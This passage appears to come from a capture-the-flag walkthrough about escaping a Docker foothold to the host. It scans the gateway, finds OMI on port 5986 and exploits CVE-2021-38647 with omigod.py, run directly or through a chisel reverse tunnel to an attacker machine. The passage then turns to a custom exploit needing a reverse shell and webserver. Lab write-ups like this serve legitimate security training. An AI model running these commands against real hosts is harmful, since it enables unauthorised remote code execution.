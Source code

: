 The next step is to enumerate the host machine (`172.17.0.1`) and see if there are any attack vectors present we can use to gain a foothold and the root flag.  One easy way to conduct this enumeration is to upload a static binary of nmap to the target you have a root foothold on and use it to scan `172.17.0.1`. 

A scan of the gateway (`172.17.0.1`) reveals that port 5986 is open. This port sticks out as unusual, and requires some more research. By searching `port 5986 linux exploit`, you can discover a link to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) mentioning OMI pentesting and CVE-2021-38647 with a link to a [GitHub](https://github.com/horizon3ai/CVE-2021-38647) repository that contains an exploit. This vulnerability is what can be used to either gain a foothold on, or extract the flag from, the true host machine. 

If the attacker can upload chisel to the docker container, they can create a tunnel through which they can run the OMI exploit and they will not have to upload the exploit script to docker. 

### From Docker Target

To exploit the OMI vulnerability on the host machine using this method, the attacker must get the `omigod.py` file onto the docker target and then run the command:

```bash
python3 omigod.py -t 172.17.0.1 -c <COMMAND>
```

### Chisel

The commands to do execute the OMI exploit from the attacker machine are as follows:

On Attacker Machine:

```bash
chisel server -p <serverport> --reverse
```

On Docker Target:

```bash
./chisel client <ATTACKERIP>:<serverport> R:<COMMS_PORT>:172.17.0.1:5986
```

On Attacker Machine:

```bash
python3 omigod.py -t 127.0.0.1:<COMMS_PORT> -c <COMMAND>
```


## Custom Exploit Binary

To automate the process of taking control of both the container and the host, an exploit script was developed in `Golang` and makes use of an open-soeurce proof-of-concept exploit script written in `Python`.

### Setup

To properly execute the automated exploit, the attacker must have three things at their disposal: the binary, a reverse shell script, and a webserver.
